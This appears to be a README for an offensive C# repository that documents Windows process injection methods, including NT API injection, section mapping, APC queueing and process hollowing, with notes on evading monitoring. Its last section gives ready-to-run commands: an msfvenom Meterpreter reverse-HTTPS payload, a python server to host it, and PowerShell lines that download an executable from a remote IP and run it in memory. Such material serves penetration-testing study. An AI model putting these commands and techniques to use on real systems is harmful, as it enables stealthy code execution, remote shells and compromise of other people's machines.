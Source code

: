 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**

1. Obtain a handle to the target process using `NtOpenProcess`.
2. Allocate memory in the remote process with `NtAllocateVirtualMemory`.
3. Write shellcode into the allocated memory using `NtWriteVirtualMemory`.
4. Create a remote thread in the target process using `NtCreateThreadEx` to execute the shellcode.

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **procHollow.cs**

An advanced injection technique where a legitimate process is started in a suspended state, its memory is unmapped, and malicious code is written into it—effectively "hollowing out" the original process. The thread is then resumed, executing the injected payload under the guise of a legitimate executable.

**High-Level Steps:**

1. Create a target process (e.g., svchost.exe) in a suspended state using CreateProcess with CREATE_SUSPENDED.
2. Retrieve the base address of the main module using NtQueryInformationProcess and ReadProcessMemory.
3. Unmap the memory of the original executable using NtUnmapViewOfSection.
4. Allocate memory in the remote process using VirtualAllocEx.
5. Write the malicious executable (often a PE file) into the allocated memory using WriteProcessMemory.
6. Update the remote process’s context (entry point) with SetThreadContext.
7. Resume the main thread with ResumeThread to execute the injected payload.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
